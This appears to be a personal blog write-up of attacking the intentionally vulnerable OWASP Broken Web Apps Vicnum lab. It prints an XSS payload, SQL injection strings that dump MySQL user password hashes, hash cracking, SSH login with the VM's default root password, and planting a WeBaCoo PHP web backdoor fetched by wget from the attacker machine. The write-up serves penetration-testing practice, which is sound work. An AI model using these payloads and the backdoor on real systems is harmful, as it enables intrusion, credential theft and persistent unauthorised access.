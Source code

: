 ```yaml
---
layout: post
title: OWASP Broken Web Apps Vicnum - Guessnum
slug: writeups
name: OWASP Broken Web Apps Vicnum - Guessnum
---
```


I started off just playing the game to see what happens moving through the workflow.  After guessing the number in 8 tries I noticed that the count is being passed from the success page over to the scoreboard, using repeater to repeat with different parameters it turns out you can make up your own score by updating the paramter &cnt.

After letting Burp spider the site I saw a union page: union1.html seems like a sql union challenge..

Looking at the page, the name parameter probably isn't sql injectable, but probably XSS vulnerable.

Throwing:

{% highlight javascript %}
<script>alert(1)</script>
{% endhighlight %}

into the URL for the unionguessname GET parameter worked.

Now for the SQLi stuff.

Doing a quick:

{% highlight sql %}
' or 1 = 1 #
{% endhighlight %}

shows query results for all users on the page, so we know its injectable.

Now to get the db users and their passwords:
{% highlight sql %}
'  union all select user,password,3,4 from mysql.user#
{% endhighlight %}

Then with this I first tried crackstation.net, but wasn't able to get all the passwords for root, then I did a little research and it looks like the hashes are SHA1, after some searching I found this site: https://www.hashkiller.co.uk/ which found the root password in question: owaspbwa, this matches the readme when the VM boots up.

Then just to see how to do it I grabbed the whole database through a web request in Burp:
{% highlight sql %}
'  union all select table_schema, table_name,column_name,4 from information_schema.columns where table_schema != 'mysql' and table_schema != 'information_schema'#
{% endhighlight %}

Next lets ssh to the VM:

{% highlight  bash %}
ssh root@ip
pw: owaspbwa
{% endhighlight %}

Now to get a persisted backdoor.

I've been playing with parrot and it looks like it comes with a web backdoor named webacoo, after some researching, it looks pretty solid, now to set things up.  

First the backdoor has to be generated:

{% highlight bash %}
webacoo -g -o bd.php
{% endhighlight %}

The -o option specifies to output to a file and the -g specifies to generate backdoor code, there is another option -f that allows control over what PHP function gets called to invoke the shell.

Next fire up SimpleHTTPServer in Parrot and change directory to the web root /var/www on the VM and run:

{% highlight bash %}
wget http://iptoparrot:8000/bd.php
{% endhighlight %}

Then to test things out:

{% highlight bash %}
webacoo -t -u http://ip/bd.php
{% endhighlight %}